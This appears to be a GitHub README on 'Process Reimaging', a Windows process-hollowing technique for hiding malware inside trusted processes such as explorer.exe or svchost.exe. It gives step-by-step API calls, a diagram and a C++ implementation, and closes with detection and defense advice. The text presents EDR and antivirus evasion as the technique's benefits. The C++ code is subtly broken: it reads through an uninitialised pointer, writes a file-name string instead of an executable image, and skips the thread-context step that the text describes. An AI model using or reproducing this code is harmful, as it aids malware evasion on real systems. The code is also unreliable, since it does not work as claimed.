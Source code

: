 # Process Reimaging
***Process Reimaging** is an advanced technique used by attackers to replace a running process with a different executable while maintaining the original process’s **Process ID (PID)**, **handles**, and **security context**.
This allows malware to blend in with legitimate processes, bypassing security monitoring and maintaining persistence on a compromised system.*

*Unlike other injection techniques (e.g., **DLL Injection**, **APC Injection**, or **Process Hollowing**), Process Reimaging **completely replaces the image of a process in memory** while keeping its execution context unchanged.*

## Why Use Process Reimaging?

- **Bypass security defenses** – Keeps the original process name and handles, making it harder for EDR (Endpoint Detection & Response) to detect.
- **Avoid antivirus detection** – AV solutions often trust running processes; replacing one allows execution of malicious code under a trusted process.
- **Persistence & privilege retention** – The process remains active under the same user context, avoiding suspicion.
- **Evade forensic analysis** – Since the original process name and metadata remain intact, analysis tools may not detect the injected code.

# How Process Reimaging Works
### 1. Selecting a Target Process
*The attacker selects a running process to replace with a malicious image. Common targets include:*
- **Explorer.exe** (common and always running).
- **Svchost.exe** (Windows service host, often overlooked).
- **Msiexec.exe** (used for installations, less suspicious).

### 2. Suspending the Process
*To ensure a seamless replacement, the attacker suspends the target process using:*

```NtSuspendProcess(hProcess);```

### 3. Unmapping the Original Executable from Memory
*The memory space occupied by the original process is **deallocated** using ```ZwUnmapViewOfSection```, removing the original image:*

```ZwUnmapViewOfSection(hProcess, baseAddress);```

### 4. Writing the Malicious Image
*A malicious executable is mapped into the **now-empty memory space**, replacing the original process. This involves:*

- **Allocating new memory** (```VirtualAllocEx```).
- **Writing the new image** (```WriteProcessMemory```).
- **Fixing necessary imports and relocation tables** (if required).

### 5. Adjusting Process Context
*To avoid detection, the attacker **modifies key process structures** such as:*

- **PEB (Process Environment Block)** – Updates process metadata.
- **Thread Context** – Adjusts execution flow to point to the new executable’s entry point.

*This is done using:*

```SetThreadContext(hThread, &ctx);```

### 6. Resuming Execution
*Once everything is set, the attacker **resumes the process**, now executing the malicious code under the disguise of the original process:*

```NtResumeProcess(hProcess);```

# Diagram of Process Reimaging Attack
```
        ┌──────────────────────────┐
        │ Attacker                 │
        │ (Injects Malicious Code) │
        └───────┬──────────────────┘
                │
                ▼
        ┌────────────────────────────┐
        │ Target Process (Legit)     │
        │ [1] Suspend Process        │◄─── NtSuspendProcess()
        │ [2] Unmap Original Image   │◄─── ZwUnmapViewOfSection()
        │ [3] Allocate Memory        │◄─── VirtualAllocEx()
        │ [4] Inject Malicious Code  │◄─── WriteProcessMemory()
        │ [5] Modify Process Context │◄─── SetThreadContext()
        │ [6] Resume Execution       │◄─── NtResumeProcess()
        └────────────────────────────┘
```
## Process Reimaging in Action
*C++ Code for Process Reimaging*
```
#include <windows.h>
#include <tlhelp32.h>
#include <winternl.h>

typedef NTSTATUS(WINAPI* pNtSuspendProcess)(HANDLE);
typedef NTSTATUS(WINAPI* pNtResumeProcess)(HANDLE);
typedef NTSTATUS(WINAPI* pZwUnmapViewOfSection)(HANDLE, PVOID);

void ProcessReimaging(DWORD pid, LPCSTR maliciousExe) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    // Suspend Process
    pNtSuspendProcess NtSuspendProcess = (pNtSuspendProcess)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtSuspendProcess");
    NtSuspendProcess(hProcess);

    // Get PEB and unmap section
    PVOID baseAddress;
    SIZE_T bytesRead;
    ReadProcessMemory(hProcess, (PBYTE*)baseAddress, &baseAddress, sizeof(PVOID), &bytesRead);
    
    pZwUnmapViewOfSection ZwUnmapViewOfSection = (pZwUnmapViewOfSection)GetProcAddress(GetModuleHandle("ntdll.dll"), "ZwUnmapViewOfSection");
    ZwUnmapViewOfSection(hProcess, baseAddress);

    // Allocate new memory and write malicious code
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, baseAddress, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, pRemoteMemory, maliciousExe, strlen(maliciousExe) + 1, NULL);

    // Resume Process
    pNtResumeProcess NtResumeProcess = (pNtResumeProcess)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtResumeProcess");
    NtResumeProcess(hProcess);

    CloseHandle(hProcess);
}
```

# Detection & Defense Against Process Reimaging
*Although Process Reimaging is stealthy, defensive measures exist:*
## Behavioral Monitoring

- Detecting **NtSuspendProcess()** calls followed by **ZwUnmapViewOfSection()**.
- Identifying processes that suddenly change their **memory image**.
- Monitoring **suspicious memory allocations** (e.g., ```VirtualAllocEx``` with ```PAGE_EXECUTE_READWRITE```).

## Process Protection Mechanisms

- Enabling **Windows Defender Attack Surface Reduction (ASR)** to block suspicious process manipulations.
- Implementing **Code Integrity Policies** to restrict execution of unauthorized binaries.

## Advanced Forensic Detection

- Comparing a process’s **original image on disk** vs. **its memory image**.
- Checking process metadata in the **PEB (Process Environment Block)** for inconsistencies.
- Using **YARA rules** to detect injected code patterns.
